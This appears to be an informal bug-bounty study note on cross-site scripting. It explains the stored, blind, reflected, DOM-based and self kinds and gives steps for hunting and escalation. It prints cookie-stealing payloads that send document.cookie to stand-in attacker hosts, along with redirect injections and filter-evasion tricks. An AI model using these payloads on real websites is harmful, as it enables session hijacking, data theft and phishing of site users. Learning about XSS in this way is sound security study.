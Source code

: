 Cross-site scripting. It is the most popular vulnerability to be found online and also to be reported on bug bounty sites like hackerone. 4 million dollars were used to pay for xss findings on only hackerone.

If the page can't differ user data from actual code that is used to create website, attacker can inject his own script into the website. User browser when rendering such page can then send someone's cookies, reveal user data, redirect user to malicious website etc. Sometimes those scripts can be in Flash, VBScript and everything that is rendered by site.

In most cases it is find by inputing something like polyglot or well-prepared payload into user input like email address input. Then the input has to be shown somewhere in order for the vulnerability to work. For example let's take newsletter input box where you should input mail if u want to sign up for newsletter. Then there is alert that the {email} subscribed to newsletter. By closing html brackets and later on inserting <script> brackets </script> we cam easily escape alert html and then inject malicious script.

Sometimes xss can be hidden in url. For example
**https://subscribe.example.com?email=EMAIL_OF_SUBSCRIPTIN ->**
https://subscribe.example.com?email=<script>location="http://attacker.com";</script>

Script that can be used for transfering cookies data:
<script>image = new Image();
image.src='http://ip_server/?c='+document.cookie;</script>

We have 3 main types of high tier vulnerability XSS: Stored, Reflected, DOM based
And there are also XSS like: blind, self,

### **Stored**
He takes place when server stores data somewhere and later on it uses it to render site It is most sensitive case, cause other users could potentially be affected by it just by browsing for example someones page.

#### **Blind**
it is  XSS that is actually stored BUT the results are shown somewhere else, or hidden from the user. For example filling contact admin info with xss, could potentially make xss on administrator, rendering malicious code in their browser. We can't really see if the xss worked, because our data isn't shown to us but rather someone else.

### **Reflected**
Its type of XSS where user input is processed and not stored. For example search bars. When we type something and hit enter we're hit with the: "You searched for {x}" and this {x} data is entirely processed by frontend and backed but its not stored anywhere. It is less critical then stored xss, because user has to somehow intereact with the hacker not only browse webpage. For Example he has to click on malicious link that can look something like this:
https://example.com/search?q=<script>alert('tiger');</script>
query could be potentially malicious and webapp could potentially load it so that script actually works like xss. It is still needed for victim to actually click link, so in some bug bounty programs people would shit on finding like that.

### **DOM-Based**
DOM is Document Object Model and it is used by browsers to render websites. It defines basic attributes, structure and behaviour of website. It helps scripts reach the content of webpage and editing it. 

Site is vulnerable when it downloads user data and by the information provided it dynamically changes DOM object. JQuery is very vulnerable to DOM XSS.

Data is by its entirety processed on the frontend, so there is no actual information provided to backend, thats the difference between reflect XSS and DOM-based XSS.

Example:
https://example.com?locale=north+america ->
https://example.com?locale=<script>location='htttps:/malicious.website/?c='+document.cookie;</script>

Sometimes it can also be inside fragments of url page like:
http://example.com#about_us ->
http://example.com#<script>location='htttps:/malicious.website/?c='+document.cookie;</script>

### **Self**
It's highly unlikely to be paid in bug bounty programs cause user interaction is highly unlikely. User has to input xss by himself to some field to cause self harm. It requires social engineering practices like:
"Paste this code into your nickname for something funny to happen".

It's not stored anywhere or data isn't shown anywhere and user has to make curl by himself so its highly unikely.

## To Protect the world from devastation...
To not be victim of xss websites should use input sanitization and output escaping. Server should atleast try and verify the integrity of the input. It should angle to get rid of atleast basics of xss like blacklisting <script> </script>

### **To hunt XSS**
It can be found in places where user data is reflected back to us. Sometimes in wild it can be found in for example mails, smtp protocols, DNS, etc.

1. Try to look for ability to input data. Sometimes they can be provided by dropdown menus and/or date and time inputs. To find reflected and DOM-based XSS you have to look on the rigidly implemented queries in urls. Don't input payloads just yet. Try to inout something specific like: XSS_TurtleBB in order to later find it on the webpage. 
2. Now try payload. Basic one like <script> alert('hello') </script>
3. It doesn't probably work cause most user input nowadays is sanitized. Nothing wrong with that, we have to get fancy.
   <img onload=alert('hello') src="example.com")>
   Or using special urls like:
   javascript:alert('XSS by Vickie')
   data:text/html;base64.PHNJcm1wdD5hbGv...
   Above base64 decoded is something like <script>alert('hello')</script>
   
   Sometimes we have to close brackets of HTML. For example when there is input loaded upon image:
   url.com?input=picturemm.png so it becomes
   <img src="picturemm.png">
   
   url.com?input="/><script>location="http://attacker.com";</script> ->
   So it becomes <img src=""/><script>location="http://attacker.com";</script>
   When your script doesn't work sometimes it just fucked up syntax.
   
   Instead of escaping syntax we can embrace it for example:
   url.com?input=123" onerror="location="http://attacker.com""->
   So it becomes <img src="123" onerror="location="http://attacker.com;"">
   
   Sometimes websites also use things called filters. They can be used to sanitize special characters. We can try to use char values instead of character and use fromCharCode(104, 116, 112,  58, 47.....) or ascii(10, 25, 25.....) etc.
   
   Somtimes filters are done poorly any you can try and do stuff like: <scri<script>pt> </scri</script>pt> </script> and try to avoid them
   

	There are much more payloads to be discovered. We also have something called
	**XSS Polyglots** which are essentially payloads that should work in most scenarios. Not to be absolutely trusted by any means, but they're more likely to find vulnerability then not. 

	In some cases it is advised to try inputting special characters to see which are sanitized and which are rendered.
4. And then we should try to confirm if the payload can work.


### **Escalation**
Escalation depends mostly on XSS target/victim. It depends on which type of XSS it is and what users are endangered.  Sometimes you can hijack session of admin, because of blind-xss with putting it into reports for admin and sometimes you can just steal some data from one user who clicks link. Sometimes it can be used to render some amount of malicious website instead of normal one so that user fills data on something that we as a threat actor rendered ourselves. Automatic Redirects are also possible.

### **Automation** 
It is mainly odne by using fuzzers or burp suite intruder. 